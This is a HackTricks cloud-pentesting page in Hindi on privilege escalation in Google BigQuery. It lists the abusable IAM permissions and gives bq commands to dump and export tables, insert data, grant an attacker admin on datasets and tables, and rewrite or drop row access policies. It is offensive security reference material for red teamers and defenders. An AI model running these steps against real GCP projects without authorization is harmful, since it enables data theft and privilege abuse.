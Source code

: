# GCP - BigQuery Privesc

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर फॉलो करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

## BigQuery

BigQuery के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

BigQuery तालिका के अंदर संग्रहीत जानकारी को पढ़ना संभव हो सकता है जिससे **संवेदनशील जानकारी** मिल सकती है। जानकारी तक पहुंचने के लिए आवश्यक अनुमति **`bigquery.tables.get`** , **`bigquery.jobs.create`** और **`bigquery.tables.getData`** है:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### डेटा निर्यात करें

यह डेटा तक पहुँचने का एक और तरीका है। **इसे एक क्लाउड स्टोरेज बकेट में निर्यात करें** और **फाइलों को डाउनलोड करें** जिनमें जानकारी हो।\
इस क्रिया को करने के लिए निम्नलिखित अनुमतियों की आवश्यकता होती है: **`bigquery.tables.export`**, **`bigquery.jobs.create`** और **`storage.objects.create`**।
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Insert data

यह संभव हो सकता है कि Bigquery तालिका में **कुछ विश्वसनीय डेटा डालें** ताकि किसी **अन्य स्थान में किसी भेद्यता का दुरुपयोग किया जा सके।** यह आसानी से अनुमतियों **`bigquery.tables.get`** , **`bigquery.tables.updateData`** और **`bigquery.jobs.create`** के साथ किया जा सकता है:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

एक हमलावर इस विशेषाधिकार का दुरुपयोग करके **खुद को और अधिक अनुमतियाँ** BigQuery डेटासेट पर दे सकता है:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

सिर्फ यह अनुमति **ACLs को संशोधित करके एक BigQuery dataset पर आपकी पहुंच को अपडेट करने की अनुमति देती है** जो यह दर्शाती है कि कौन इसे एक्सेस कर सकता है:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

एक हमलावर इस विशेषाधिकार का दुरुपयोग करके **अपने आप को और अधिक अनुमतियाँ** BigQuery तालिका पर दे सकता है:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

दस्तावेज़ों के अनुसार, उल्लिखित अनुमतियों के साथ **एक पंक्ति नीति को अपडेट करना संभव है।**\
हालांकि, **`bq` cli का उपयोग करते समय** आपको कुछ और चाहिए: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**।

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

पंक्ति नीतियों की गणना के आउटपुट में फ़िल्टर आईडी ढूंढना संभव है। उदाहरण:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
यदि आपके पास **`bigquery.rowAccessPolicies.delete`** है `bigquery.rowAccessPolicies.update` के बजाय, तो आप बस नीति को हटा सकते हैं:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
एक और संभावित विकल्प पंक्ति एक्सेस नीतियों को बायपास करने का यह हो सकता है कि प्रतिबंधित डेटा के मान को ही बदल दिया जाए। यदि आप केवल तब देख सकते हैं जब `term` `Cfba` है, तो बस तालिका के सभी रिकॉर्ड्स को `term = "Cfba"` में बदल दें। हालांकि, इसे bigquery द्वारा रोका जाता है।
{% endhint %}

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में या **हमें** **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}
